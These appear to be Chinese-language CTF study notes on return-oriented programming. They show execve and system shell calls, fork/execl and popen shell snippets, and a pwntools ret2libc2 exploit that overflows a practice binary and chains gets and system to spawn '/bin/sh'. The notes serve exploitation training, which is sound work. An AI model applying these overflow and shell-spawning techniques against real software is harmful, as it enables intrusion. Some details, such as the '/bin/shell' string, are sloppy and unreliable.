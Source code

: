 
系统调用 shell	(execve)  
构造execve系统调用的汇编
![](./图片/wiki_rop_01.png)
其中sysenter是系统终端,int 0x80 也可以

```bash{.line-numbers}
eax  = 0xb (调用号)  	         							
ebx = '/bin/shell' 字符串地址 '/sh' 也可以	 
ecx = 0    							
edx = 0
int 0x80 
```

系统调用 shell (system)
这是一个函数，别忘了构造它的返回地址
![](./图片/wiki_rop_02.png)

还有两种shell，目前还未实现
1.使用fork 和 execl函数

```cpp{.line-numbers}
#include <unistd.h>

int main() {
    if (fork() == 0) {
        execl("/bin/sh", "sh", NULL);
    }
    return 0;
}

```

2.使用 popen 函数
```cpp{.line-numbers}
#include <stdio.h>

int main() {
    FILE *fp;
    fp = popen("/bin/sh", "r");
    pclose(fp);
    return 0;
}

```




- ret2libc2
![](./图片/wiki_rop_03.png)

该题没有’bin/shell‘字符串，需要我们手动构造gets函数写入’bin/shell‘

```
溢出点 ret      gets地址
				system地址  (gets返回地址)
				buf         (gets参数/gets返回地址)
				buf         (system参数，此时已经写上了'bin/shell')

ps:这里的函数地址都不能是call,而是jump,返回地址要我们自己构造
```

exp如下
```
from pwn import *
import time
sh = process('./ret2libc2')
elf = ELF('./ret2libc2')
buf = 0x804a080

#system_plt = 0x08048490
system_plt = elf.plt['system']
#gets_plt = 0x08048460
gets_plt = elf.plt['gets']

gdb.attach(sh)
sleep(10)

payload = flat([b'a'*112,gets_plt,system_plt,buf,buf])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()

```



